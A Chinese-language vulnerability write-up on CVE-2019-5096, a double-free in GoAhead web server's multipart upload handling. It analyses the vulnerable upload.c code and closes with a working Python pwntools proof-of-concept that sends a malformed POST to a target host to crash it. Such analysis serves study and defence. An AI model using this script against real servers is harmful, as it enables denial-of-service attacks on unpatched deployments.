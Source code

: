 # CVE-2019-5096 GoAhead 远程代码溢出漏洞

### 一、漏洞简介

GoAhead Web服务器最近被曝光在版本v5.0.1，v.4.1.1和v3.6.5中存在一个可利用的代码执行漏洞，漏洞存在http请求的multi-part/form-data字段处理中，若是发送畸形的HTTP请求，可导致GoAhead Web服务器在处理此请求期间触发double-free漏洞。 该畸形请求可以未经身份验证的GET或POST请求形式发送，并且请求的服务器上不需要存在web页面。

### 二、漏洞影响

v5.0.1，v.4.1.1和v3.6.5

### 三、复现过程

**漏洞分析**

漏洞曝光者给出了触发漏洞的源码：


```bash
/ src/upload.c /
66 static void freeUploadFile(WebsUpload *up)
67 {
68 if (up) {
69 if (up->filename) { // BUG: First UAF here
70 unlink(up->filename); // BUG: UAF/unlink - probably not a good idea
71 wfree(up->filename); // BUG: Double free here
72 }
73
74 wfree(up->clientFilename);
75 wfree(up->contentType);
76 wfree(up);
77 }
78 }
```

经过笔者的分析发现，freeUploadFile（）函数会在/src/upload.c的websFreeUpload（）函数中调用，而websFreeUpload（）函数会在/src/http.c中调用，/src/http.c中termWebs（）函数会调用websFreeUpload（）函数，/src/http.c中reuseConn（）函数会调用termWebs（）函数，从中可以看出漏洞触发函数freeUploadFile（）的调用过程。

在函数freeUploadFile（）的调用过程中，查看源码可发现有两行如下代码：


```bash
/ src/upload.c /
255 freeUploadFile(wp->currentFile);
256 file = wp->currentFile = walloc(sizeof(WebsUpload));
```

在此处变量 wp->currentFile会被free一次，但是被free的变量wp->currentFile在代码：


```bash
/ src/upload.c /
371 hashEnter(wp->files, wp->uploadVar, valueSymbol(file), 0);
372 defineUploadVars(wp);
```

在此处代码中把变量wp->currentFile加入了一个数组中，该数组中的变量在接下来的代码中会被free一次，free代码如下：


```bash
/ src/upload.c /
86 for (s = hashFirst(wp->files); s; s = hashNext(wp->files, s)) {
87 up = s->content.value.symbol;
88 freeUploadFile(up);
```

变量wp->currentFile再次被free之后，导致了double-free漏洞触发，是fastbin double free，利用方法和思路已经很成熟。

**poc**

https://github.com/ianxtianxt/CVE-2019-5096-GoAhead-Web-Server-Dos-Exploit


```python
from pwn import *
import time
import sys
r = remote(sys.argv[1],8080)
rn = b"\r\n"

payload=b''
payload +=b"--siiit"+rn
payload +=b"Content-Disposition: form-data; name=\"shit1\"; filename=\"shit.file\";"+rn
payload+= rn
payload+=b"HelloWorld!"+rn
payload +=b"--siiit"+rn
payload +=b"Content-Disposition: form-data;  name=\"shit2\"; filename=\"shit2.file\""+rn
payload+= rn
payload+=b"FuckkWorld!"+rn
payload +=b"--siiit"+rn

data = b"POST / HTTP/1.1\r\nHost:HelloWorld:8080\r\n"
data +=b"content-type:multipart/form-data"+rn
data +=b"content-type:boundary=siiit"+rn
data +=b"content-length:"+str(len(payload)).encode()+rn
data +=b"cookie:"+b'a'*0x1+rn
data +=rn
data +=payload


r.send(data)
sleep(20)
try:
    dat=r.recvn(1024)
    print(dat)
    r.close()
except:
    r.close()
```